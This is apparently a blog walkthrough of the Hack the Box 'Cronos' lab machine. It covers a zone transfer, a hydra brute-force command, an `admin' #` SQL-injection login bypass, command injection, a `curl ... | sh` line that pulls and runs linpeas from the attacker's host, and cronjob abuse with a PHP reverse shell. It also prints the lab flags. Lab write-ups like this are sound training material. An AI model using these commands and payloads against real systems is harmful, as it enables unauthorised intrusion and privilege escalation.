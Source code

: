```yaml
---
title: Cronos - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cronos.png
---
```

---
title: Cronos - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cronos.png
---
---
title: 2024-10-12-Cronos - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Cronos.png
---
![Image](/assets/Cronos.png)

Cronos is an easy/intermediate box that will test an attacker's knowledge of zone transfers, remote code execution, simple SQL injection, and simple privilege escalation based on abused access. Let's get into it!
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 09:59 EDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.89 seconds

```
### Enumeration

Landing page![Image](/assets/Screenshot 2024-09-10 at 10.31.58 AM.png)

From the jump, the landing page doesn't leave us with much other than default configuration information. Feroxbuster comes up pretty empty as well, and when doing research online, all I can find is a TSIG Buffer Overflow vulnerability, but that seems out of play and a bit out of scope for a box like this. Searchsploit shows a few repos geared toward DOS and buffer overflow attacks as well, which won't help us here. I throw a general `--script vuln` nmap scan to see if anything comes back, and nothing except DOS attacks come back. 

Looking around on the web about Apache2 Ubuntu servers, we can find information about why we encountered the landing page. It looks like we need to find the DNS name that the IP resolves to, and we can do that with a tool called `nslookup`.
Using that command we can start our service, and then specify `server 10.10.10.13` to configure it, and then simply put in the IP `10.10.10.13` for DNS information.

![Image](/assets/Screenshot 2024-09-10 at 11.02.53 AM.png)

After that, we can add it to our `/etc/hosts` file, and then visit the server. 

![Image](/assets/Screenshot 2024-09-10 at 11.09.36 AM.png)
![Image](/assets/Screenshot 2024-09-10 at 11.09.56 AM.png)

The new landing page offers some options, and I started a feroxbuster in the background while I perused the sight. It seems to be hub for services provided by Laravel, which is a PHP based framework for building webapps. Nothing crazy going on on the backside.

Since we've got the domain name, let's do a zone transfer to find all of the hosts under this domain name. We can use the `host -l` command to do so, specifying our domain server and address afterwards to find the aliases.

`host -l cronos.htb 10.10.10.13`

![Image](/assets/Screenshot 2024-09-10 at 11.15.58 AM.png)

We can add these to our `/etc/hosts` file.

When we visit the administrator site, we're met with portal. I tried a few simple credentials, but they didn't work. I'll opt for `john` and pass the list (`/usr/share/john/password.lst`) that I use find to `hydra`.  We'll need to intercept a request with Burp to know which parameters to configure.

![Image](/assets/Screenshot 2024-09-10 at 11.25.50 AM.png)

Now that we've got it, let's configure `hydra`. 

```
hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"
```

In this instance, `http-post-form` sends the post request, and the `"blah"` Specifies the username and pass parameters to be tried and the message to be shown. 

![Image](/assets/Screenshot 2024-09-10 at 11.33.04 AM.png)

We find nothing of use. Let's try some sort of injection with the login field. There's a SQL injection cheatsheet I've bookmarked, and after trying some of the default instances, `admin' #` gets us in the door. This effectively ends the argument after admin is defined, meaning that we can login without a password.

![Image](/assets/Screenshot 2024-09-10 at 11.36.13 AM.png)

### Initial Access

We've got access to a Net Tool that allows command injection. 

![Image](/assets/Screenshot 2024-09-10 at 11.37.10 AM.png)

To probe, we can use `8.8.8.8& pwd& ps`

![Image](/assets/Screenshot 2024-09-10 at 11.44.46 AM.png)

Now, let's try and get a shell. We can use Burp to modify our request. Don't forget to try different versions (bash, python, php) should one not work. Remember to URL encode!

![Image](/assets/Screenshot 2024-09-10 at 11.54.41 AM.png)

![Image](/assets/Screenshot 2024-09-10 at 11.54.19 AM.png)

We've got a shell as `www-data`. Some maintenance as always to stabilize our shell:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

`stty raw -echo; fg` 

`export TERM="xterm"`

If we go to the `/home/noulis/` directory, we can find our user flag waiting for us. 

`USER:6394548063775e0b161d3b2771125340`

### Privilege Escalation

Let's serve `LinPeas.sh` from our machine to the target. Make sure the server is spinning from the directory you want to serve! Syntax below:

`python -m SimpleHTTPServer 80` Our Machine

`curl 10.10.14.3/linpeas.sh | sh` Compromised Machine

Once ran, we can take a look at all of the potential red-flags we've got. Given the severity of the notification via color-coding, and the name of the machine, I think we'll use this vector here exploiting the cronjob. A cronjob is a service account that sometimes has excess access over it's domain. In this case, since we are `www-data`, anything in the `/var/www/` directory will be available to us as if we were `root`.

![Image](/assets/Screenshot 2024-09-10 at 12.17.42 PM.png)

Here, the `laravel/artisan` job will be what we leverage. Because the job is ran with PHP, we'll need a PHP shell. I got one at revshell.com, and I'll make a file and serve it over the python server.

![Image](/assets/Screenshot 2024-09-10 at 12.26.01 PM.png)
![Image](/assets/Screenshot 2024-09-10 at 12.30.32 PM.png)

Once I've created the file, served it, and replace artisan, I'll get my listener going.

![Image](/assets/Screenshot 2024-09-10 at 12.32.11 PM.png)

There she is! I'll `cd` to the root directory and grab my flag.

`ROOT:e2d2bbe3b974d0c044bfcdea242b709b`

#linux #medium #manual 
